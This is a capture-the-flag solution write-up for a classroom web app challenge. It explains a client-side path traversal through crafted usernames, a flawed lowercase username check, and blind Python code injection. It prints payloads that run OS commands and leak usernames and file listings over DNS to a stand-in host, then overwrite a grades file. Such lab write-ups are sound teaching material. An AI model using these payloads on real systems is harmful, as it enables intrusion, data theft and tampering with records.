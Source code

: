 # SOLUTION:

By viewing the source code of / you find a path called /routes where you can see all paths. If you test each of them you find that /waitlist as an access control issue.

On that page you can see how the links to accept or deny users are made. Since you know that the teacher denies user every minute you have to find a way to force her into accepting one of your account. Your username is direclty appended to the path without verification because of this you can exploit a Client Side Path Traversal by creating a user named foo/../../accept/attacker. So when the teacher clicks the link : http://localhost:8081/deny/foo/../../accept/attacker it results in http://localhost:8081/accept/attacker which gives the attacker access to the class.

The next bug wasn't really realistic but it was to test your attention to details. Once you gain access to the class you see the name of all users in the class which contains the user Teacher however when you try to access a page that only the teacher as access you get this error message : "
As user : {username} you cant approve or deny users only user : "teacher" does."

You can notice that your username if it had capital letters is lower cased same thing for the user Teacher. What you have to understand here is that the username validation is flawed since it lowers the characters before checking if they match with teacher. This means that you can re-exploit the CSPT to validate the user TEACHER for example.

Now that you are logged in and have gain access to the class as user TEACHER you also gain access to the grade page. Where there is a python calculator...

This python calculator contains a python code execution vulnerability sadly you will have to use OOB detection to exploit and confirm this vulnerability since its blind.

So here is how I would've exploited this :

First confirm the vuln with the payload :

```
__import__('os').system('host $(whoami).yoursite.com')
```

Then list files :

```
__import__('os').system('for i in $(ls) ; do host \"$i.yoursite.com\"; done')
```

Then list data directory :

```
__import__('os').system('for i in $(ls data) ; do host \"$i.yoursite.com\"; done')
```


Then edit gardes.json so Vincent's grade is over 90% :

```
__import__('os').system('echo "ewogICAgIlZpbmNlbnQiOiAyNy44NywKICAgICJDYXJsb3MiOiA4Ny42NywKICAgICJXaWVuZXIiOiA2MS44NiwKICAgICJuZXJkIjogMTAwLjAxCn0=" | base64 -d > data/grades.json')
```

